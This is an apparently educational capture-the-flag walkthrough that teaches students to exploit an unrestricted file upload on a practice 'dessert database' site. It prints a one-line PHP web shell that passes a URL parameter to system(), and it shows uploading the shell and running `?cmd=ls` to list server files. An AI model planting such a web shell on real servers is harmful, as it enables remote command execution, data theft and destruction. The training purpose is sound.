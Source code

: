 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. We could destroy the website if we wanted to!

**But we won't do that cause we are not the L33k3ers!**

Now that you know what know what this file does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says 
> We got your cake image: /cakes/Hack.php

With a little image underneath

**Right click** on this image and select, **"Open Image in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 

The command that is executed is directly after the `=`, so like we learned in the bash tutorial, `ls` prints all the contents of a directory. Now, find the **flag!**







